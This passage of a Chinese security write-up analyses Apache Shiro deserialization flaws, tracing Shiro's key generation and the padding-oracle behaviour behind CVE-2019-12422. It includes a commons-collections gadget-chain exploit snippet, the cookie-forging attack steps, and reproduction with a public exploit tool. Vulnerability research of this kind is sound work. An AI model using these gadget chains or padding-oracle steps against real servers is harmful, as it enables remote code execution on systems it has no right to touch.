        if (log.isTraceEnabled()) {
            log.trace("Unable to load class named [" + fqcn + "] from the current ClassLoader.  " +
                    "Trying the system/application ClassLoader...");
        }
        clazz = SYSTEM_CL_ACCESSOR.loadClass(fqcn);
    }

    if (clazz == null) {
        String msg = "Unable to load class named [" + fqcn + "] from the thread context, current, or " +
                "system/application ClassLoaders.  All heuristics have been exhausted.  Class could not be found.";
        throw new UnknownClassException(msg);
    }

    return clazz;
}
```

这里接受的参数类型是String类型，如果传入的是Transform数组，会报错，具体的细节在THREAD\_CL\_ACCESSOR.loadClass中

这里引入commons-collections:4.0，CC2链使用的是非数组形式，所以可以利用成功

与此同时，Shiro中自带的CommonsBeanutils组件也可使用对应的CB链去利用

#### 利用commons-collections:3.2.1

参考wh1t3p1g文章，exp如下：

```plain
final Object templates = Gadgets.createTemplatesImpl(command);// 构造带有evil class bytes的TemplatesImpl
// 构造InvokerTransformer，填充无害的toString函数
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

final Map innerMap = new HashMap();
// 构造LazyMap的factory为前面的InvokerTransformer
final Map lazyMap = LazyMap.decorate(innerMap, transformer);
// 填充TiedMapEntry的map（lazyMap）和key（TemplatesImpl）
TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);

HashSet map = new HashSet(1);
map.add("foo");
// 下述代码将entry填充到HashSet的node的key上，可以使得HashSet在put的时候调用TiedMapEntry的hashCode函数
Field f = null;
try {
  f = HashSet.class.getDeclaredField("map");
} catch (NoSuchFieldException e) {
  f = HashSet.class.getDeclaredField("backingMap");
}
Reflections.setAccessible(f);
HashMap innimpl = null;
innimpl = (HashMap) f.get(map);

Field f2 = null;
try {
  f2 = HashMap.class.getDeclaredField("table");
} catch (NoSuchFieldException e) {
  f2 = HashMap.class.getDeclaredField("elementData");
}
Reflections.setAccessible(f2);
Object[] array = new Object[0];
array = (Object[]) f2.get(innimpl);
Object node = array[0];
if(node == null){
  node = array[1];
}

Field keyField = null;
try{
  keyField = node.getClass().getDeclaredField("key");
}catch(Exception e){
  keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
}
Reflections.setAccessible(keyField);
keyField.set(node, entry);
// 将最终的触发函数newTransformer装载到InvokerTransformer上
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

return map;
```

参考：[https://www.anquanke.com/post/id/192619](https://www.anquanke.com/post/id/192619)

### 小结

在Shiro1.2.5中，将默认的key改成了动态key，但还是存在反序列化问题

## Shiro721相关分析

编号：CVE-2019-12422  
影响版本：Apache Shiro <= 1.4.1  
流程：

1.  登录网站获取正确的Cookie值（remeberMe）
2.  使用rememberMe字段进行Padding Oracle Attack，获取intermediary
3.  利用intermediary构造出恶意的反序列化密文作为Cookie
4.  使用新的Cookie请求网站执行攻击

### 环境搭建

版本下载地址：[https://github.com/apache/shiro/releases/tag/shiro-root-1.4.1](https://github.com/apache/shiro/releases/tag/shiro-root-1.4.1)  
导入IDEA，加载包，启动Tomact，直接运行即可

### 分析

#### 密钥生成

在Shiro550中，密钥直接写在源码中，而在Shiro721中，密钥动态生成  
查看

```plain
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    AesCipherService cipherService = new AesCipherService();
    this.cipherService = cipherService;
    setCipherKey(cipherService.generateNewKey().getEncoded());
}
```

查看generateNewKey方法

```plain
public Key generateNewKey() {
    return generateNewKey(getKeySize());
}
```

其中这里的getKeySize是获取key的长度  
再进入到重载的generateNewKey方法

```plain
public Key generateNewKey(int keyBitSize) {
    KeyGenerator kg;
    try {
        // 根据算法名字初始化一个密钥生成器对象
        kg = KeyGenerator.getInstance(getAlgorithmName());
    } catch (NoSuchAlgorithmException e) {
        String msg = "Unable to acquire " + getAlgorithmName() + " algorithm.  This is required to function.";
        throw new IllegalStateException(msg, e);
    }
    // 初始化
    kg.init(keyBitSize);
    return kg.generateKey();
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234506-1d91ebea-8497-1.png)  
进入init方法

```plain
public final void init(int var1) {
    this.init(var1, JceSecurity.RANDOM);
}
```

这里的var1指的是key的长度，即128，调用重载方法init

```plain
public final void init(int var1, SecureRandom var2) {
    // var1表示key的大小
    // var2表示用于生成随机数的安全随机数生成器
    if (this.serviceIterator == null) {
        this.spi.engineInit(var1, var2);
    } else {
        // 如果"serviceIterator"不为null，表示有多个服务提供者实现可用。在这种情况下，会进入一个循环，不断尝试调用不同的服务提供者实现来初始化密钥生成器
        RuntimeException var3 = null;
        KeyGeneratorSpi var4 = this.spi;

        while(true) {
            try {
                // 初始化密钥生成器
                var4.engineInit(var1, var2);
                this.initType = 4;
                this.initKeySize = var1;
                this.initParams = null;
                this.initRandom = var2;
                return;
            } catch (RuntimeException var6) {
                if (var3 == null) {
                    var3 = var6;
                }
                // 取下一个可用的服务提供者实现
                var4 = this.nextSpi(var4, false);
                if (var4 == null) {
                    throw var3;
                }
            }
        }
    }
}
```

这个方法主要是用于获取初始化密钥生成器  
回到generateNewKey方法，初始化完成后，调用generateKey方法

```plain
public final SecretKey generateKey() {
    if (this.serviceIterator == null) {
        return this.spi.engineGenerateKey();
    } else {
        RuntimeException var1 = null;
        KeyGeneratorSpi var2 = this.spi;

        while(true) {
            try {
                // 生成密钥
                return var2.engineGenerateKey();
            } catch (RuntimeException var4) {
                if (var1 == null) {
                    var1 = var4;
                }

                var2 = this.nextSpi(var2, true);
                if (var2 == null) {
                    throw var1;
                }
            }
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234551-38872384-8497-1.png)  
进入到engineGenerateKey方法

```plain
protected SecretKey engineGenerateKey() {
    SecretKeySpec var1 = null;
    if (this.random == null) {
        this.random = SunJCE.getRandom();
    }

    byte[] var2 = new byte[this.keySize];
    this.random.nextBytes(var2);
    var1 = new SecretKeySpec(var2, "AES");
    return var1;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234609-4352122e-8497-1.png)  
随机生成相应长度的key后，返回SecretKeySpec对象  
最后再回到AbstractRememberMeManager的构造函数使用getEncoded方法获取密钥序列

```plain
public byte[] getEncoded() {
    return (byte[])this.key.clone();
}
```

#### Padding Oracle Attack攻击

原理：[https://skysec.top/2017/12/13/padding-oracle%E5%92%8Ccbc%E7%BF%BB%E8%BD%AC%E6%94%BB%E5%87%BB/](https://skysec.top/2017/12/13/padding-oracle%E5%92%8Ccbc%E7%BF%BB%E8%BD%AC%E6%94%BB%E5%87%BB/)  
[https://goodapple.top/archives/217](https://goodapple.top/archives/217)  
这是一种类似于SQL盲注的攻击方法，所以需要寻找到返回结果的不同状态  
**Padding错误时返回的状态**：  
回到AbstractRememberMeManager的解密函数

```plain
protected byte[] decrypt(byte[] encrypted) {
    byte[] serialized = encrypted;
    CipherService cipherService = getCipherService();
    if (cipherService != null) {
        ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
        serialized = byteSource.getBytes();
    }
    return serialized;
}
```

按照流程进入JcaCipherService类的decrypt方法，处理好iv和对应的密文后，进入重载的decrypt方法

```plain
private ByteSource decrypt(byte[] ciphertext, byte[] key, byte[] iv) throws CryptoException {
    if (log.isTraceEnabled()) {
        log.trace("Attempting to decrypt incoming byte array of length " +
                (ciphertext != null ? ciphertext.length : 0));
    }
    byte[] decrypted = crypt(ciphertext, key, iv, javax.crypto.Cipher.DECRYPT_MODE);
    return decrypted == null ? null : ByteSource.Util.bytes(decrypted);
}
```

进入crypt方法

```plain
private byte[] crypt(byte[] bytes, byte[] key, byte[] iv, int mode) throws IllegalArgumentException, CryptoException {
    if (key == null || key.length == 0) {
        throw new IllegalArgumentException("key argument cannot be null or empty.");
    }
    javax.crypto.Cipher cipher = initNewCipher(mode, key, iv, false);
    return crypt(cipher, bytes);
}
```

进入重载方法

```plain
private byte[] crypt(javax.crypto.Cipher cipher, byte[] bytes) throws CryptoException {
    try {
        return cipher.doFinal(bytes);
    } catch (Exception e) {
        String msg = "Unable to execute 'doFinal' with cipher instance [" + cipher + "].";
        throw new CryptoException(msg, e);
    }
}
```

这里调用了doFinal函数对字节码进行处理，步入

```plain
public final byte[] doFinal(byte[] var1) throws IllegalBlockSizeException, BadPaddingException {
    // 检查加密器/解密器的状态
    this.checkCipherState();
    if (var1 == null) {
        throw new IllegalArgumentException("Null input buffer");
    } else {
        this.chooseFirstProvider();
        return this.spi.engineDoFinal(var1, 0, var1.length);
    }
}
```

这个方法会抛出两个异常，分别是IllegalBlockSizeException（块大小异常）和BadPaddingException（填充错误异常），这里使用的是throws，会将异常抛至上一层方法，逐层往上，直到getRememberedPrincipals方法中使用onRememberedPrincipalFailure进行处理

```plain
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
    PrincipalCollection principals = null;
    try {
        byte[] bytes = getRememberedSerializedIdentity(subjectContext);
        //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
        if (bytes != null && bytes.length > 0) {
            principals = convertBytesToPrincipals(bytes, subjectContext);
        }
    } catch (RuntimeException re) {
        // 这里
        principals = onRememberedPrincipalFailure(re, subjectContext);
    }

    return principals;
}
```

进入onRememberedPrincipalFailure方法

```plain
protected PrincipalCollection onRememberedPrincipalFailure(RuntimeException e, SubjectContext context) {

    if (log.isWarnEnabled()) {
        String message = "There was a failure while trying to retrieve remembered principals.  This could be due to a " +
                "configuration problem or corrupted principals.  This could also be due to a recently " +
                "changed encryption key, if you are using a shiro.ini file, this property would be " +
                "'securityManager.rememberMeManager.cipherKey' see: http://shiro.apache.org/web.html#Web-RememberMeServices. " +
                "The remembered identity will be forgotten and not used for this request.";
        log.warn(message);
    }
    // 这里
    forgetIdentity(context);
    //propagate - security manager implementation will handle and warn appropriately
    throw e;
}
```

此方法调用了forgetIdentity方法进行处理

```plain
private void forgetIdentity(HttpServletRequest request, HttpServletResponse response) {
    getCookie().removeFrom(request, response);
}
```

removeFrom方法

```plain
public void removeFrom(HttpServletRequest request, HttpServletResponse response) {
    String name = getName();
    String value = DELETED_COOKIE_VALUE;
    String comment = null; //don't need to add extra size to the response - comments are irrelevant for deletions
    String domain = getDomain();
    String path = calculatePath(request);
    int maxAge = 0; //always zero for deletion
    int version = getVersion();
    boolean secure = isSecure();
    boolean httpOnly = false; //no need to add the extra text, plus the value 'deleteMe' is not sensitive at all

    addCookieHeader(response, name, value, comment, domain, path, maxAge, version, secure, httpOnly);

    log.trace("Removed '{}' cookie by setting maxAge=0", name);
}
```

removeForm主要在response头部添加字段Set-Cookie: rememberMe=deleteMe

**Padding正确，反序列化失败**：  
在DefaultSerializer类的反序列化函数中进行了处理

```plain
public T deserialize(byte[] serialized) throws SerializationException {
    if (serialized == null) {
        String msg = "argument cannot be null.";
        throw new IllegalArgumentException(msg);
    }
    ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
    BufferedInputStream bis = new BufferedInputStream(bais);
    try {
        ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);
        @SuppressWarnings({"unchecked"})
        T deserialized = (T) ois.readObject();
        ois.close();
        return deserialized;
    } catch (Exception e) {
        String msg = "Unable to deserialize argument byte array.";
        throw new SerializationException(msg, e);
    }
}
```

但对于Java来说，反序列化是以Stream的方式按顺序进行的，向其后添加或更改一些字符串并不会影响正常反序列化  
**两种状态**：

1.  padding正确，服务器给出正确响应
2.  padding错误，服务器返回Set-Cookie: rememberMe=deleteMe

### 复现

使用工具ShiroExploit v2.51：[https://github.com/feihong-cs/ShiroExploit-Deprecated/releases/tag/v2.51](https://github.com/feihong-cs/ShiroExploit-Deprecated/releases/tag/v2.51)  
输入网址及用户登录成功的Cookie  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234647-599f5762-8497-1.png)  
然后选择“使用ceye.io进行漏洞检测”，点击下一步开始攻击  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234708-6625c1ec-8497-1.png)

## 总结

在渗透测试中，Shiro 的广泛应用使得它成为攻击者的高价值目标。通过深入对 Shiro 代码的分析，我们能够更全面地理解其内部工作原理，有助于揭示潜在的安全隐患。Shiro其他版本中的漏洞还非常值得研究..
